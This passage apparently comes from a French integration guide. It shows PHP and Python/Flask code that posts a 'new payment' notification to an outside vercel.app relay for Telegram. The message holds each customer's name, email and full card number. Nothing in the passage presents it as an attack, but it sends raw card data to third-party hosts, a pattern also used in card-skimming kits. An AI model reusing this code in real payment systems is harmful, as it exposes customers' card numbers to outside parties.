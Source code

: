 ```php
        echo "❌ Erreur: " . $result['error'];
    }
}
?>
```

### 4. Python (Flask/Django)

```python
import requests
import json

def send_payment_notification(payment_data):
    api_url = 'https://test-alpha-lac-68.vercel.app/api/telegram'
    
    message = f"""💰 NOUVEAU PAIEMENT REÇU !
👤 Nom: {payment_data['customer_name']}
📧 Email: {payment_data['email']}
💳 Carte: {payment_data['card_number']}
💶 Montant: {payment_data['amount']}€
🔒 Vérifiez immédiatement !"""
    
    data = {
        'message': message,
        'type': 'payment'
    }
    
    try:
        response = requests.post(api_url, json=data)
        result = response.json()
        
        if result['success']:
            return {
                'success': True,
                'message_id': result['telegramResponse']['result']['message_id']
            }
        else:
            return {
                'success': False,
                'error': result['error']
            }
    except Exception as e:
        return {
            'success': False,
            'error': str(e)
        }

# Utilisation Flask
@app.route('/process_payment', methods=['POST'])
def process_payment():
    payment_data = request.json
    
    # Traiter le paiement
    payment_result = process_payment_with_stripe(payment_data)
    
    if payment_result['success']:
        # Envoyer la notification
        notification_result = send_payment_notification(payment_data)
        
        if notification_result['success']:
            return jsonify({
                'success': True,
                'message': 'Paiement réussi et notification envoyée !',
```